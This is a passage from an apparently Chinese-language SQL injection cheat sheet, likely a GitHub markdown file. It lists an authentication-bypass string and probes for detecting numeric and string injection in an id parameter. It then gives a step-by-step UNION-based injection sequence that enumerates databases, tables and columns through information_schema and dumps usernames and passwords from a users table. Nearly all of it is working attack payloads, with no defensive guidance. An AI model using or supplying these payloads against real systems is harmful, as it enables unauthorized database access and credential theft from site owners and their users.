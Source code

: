 ```sql
') or ('1'='1--
```

### 判断是否存在注入
#### 数值型注入
 - sql.php?id=1+1
 - sql.php?id=-1 or 1=1
 - sql.php?id=-1 or 10-2=8
 - sql.php?id=1 and 1=2
 - sql.php?id=1 and 1=1

#### 字符型注入
 - sql.php?id=1'
 - sql.php?id=1"
 - sql.php?id=1' and '1'='1
 - sql.php?id=1" and "1"="1

### 联合查询注入

```sql
# 判断 SQL 语句中一共返回了多少列
order by 3 --+

# 查看显示位
union select 1, 2, 3 --+

# 爆数据
union select 1, version(), database() --+

# 爆出单个数据库
union select 1, database(), schema_name from information_schema.schemata limit 0, 1 --+		

# 爆出全部数据库
union select 1, database(), group_concat(schema_name) from information_schema.schemata --+

# 爆出数据库 security 里的单个表名
union select 1, database(), (select table_name from information_schema.tables where table_schema = database() limit 0, 1) --+	

# 爆出数据库 security 里的所有表名
union select 1, database(), (select group_concat(table_name) from information_schema.tables where table_schema = database()) --+

# 从表名 users 中爆出一个字段来
union select 1, database(), (select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0, 1) --+

# 从表名 users 中爆出全部字段来
union select 1, database(), (select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' ) --+

# 从 users 表里对应的列名中爆出一个数据来
union select 1, database(), concat(id, 0x7e, username, 0x3A, password, 0x7e) from users limit 0,1 --+

# 从 users 表里对应的列名中爆出所有数据来
union select 1, database(), (select group_concat(concat(id, 0x7e, username, 0x3A, password, 0x7e)) from users) --+
```
